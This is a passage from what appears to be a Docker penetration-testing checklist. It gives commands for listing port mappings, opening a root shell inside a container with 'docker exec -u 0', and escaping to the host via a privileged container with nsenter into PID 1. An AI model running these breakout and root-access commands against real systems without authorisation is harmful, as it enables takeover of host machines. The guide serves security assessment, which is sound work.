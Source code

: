    - **Test Case:** Identify exposed ports and assess their security.
   - **Commands/Tools:**
     ```bash
     # List port mappings of a running container
     docker port <container-id>
     ```

   - **Example:**
     ```bash
     # List port mappings for container 'web-app'
     docker port web-app
     ```

## 4. Privilege Escalation:

   - **Test Case:** Check for potential privilege escalation vulnerabilities.
   - **Commands/Tools:**
     ```bash
     # Access container with root privileges
     docker exec -u 0 -it <container-id> /bin/bash
     ```

   - **Example:**
     ```bash
     # Access 'database-container' with root privileges
     docker exec -u 0 -it database-container /bin/bash
     ```

## 5. Container Breakout:

   - **Test Case:** Attempt to escape from the container and access the host system.
   - **Commands/Tools:**
     ```bash
     # Run a privileged container and break out
     docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
     ```

   - **Example:**
     ```bash
     # Attempt container breakout on 'web-container'
     docker run -it --privileged --pid=host web-container nsenter -t 1 -m -u -n -i sh
     ```
